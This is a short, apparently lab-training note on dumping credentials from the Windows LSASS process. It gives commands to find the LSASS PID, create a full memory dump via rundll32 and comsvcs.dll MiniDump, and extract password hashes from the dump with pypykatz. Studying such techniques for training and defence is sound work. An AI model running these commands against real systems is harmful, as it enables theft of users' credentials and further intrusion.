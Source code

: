 # Attacking LSASS

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/50328b82-c010-46a7-af18-15c5516cb677)

Upon initial logon, LSASS will:

1) Cache credentials locally in memory
2) Create access tokens
3) Enforce security policies
4) Write to Windows security log

# Rundll32.exe & Comsvcs.dll Method
 First of all we have to find lsass pid
```bash
tasklist /svc
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/564013af-c946-4535-b81d-2bdce653888e)
We can see PID of lsass is `672`<br>
From powershell:
```bash
Get-Process lsass
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/8c135bc0-9a1f-44a2-a432-cdee2a4b815e)
Once we have the PID assigned to the LSASS process, we can create the dump file.

From powershell:
```bash
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
and then we will transfer file to linux machine then we will use `pypykatz` to dump hashes:
```bash
pypykatz lsa minidump lsass.dmp
```
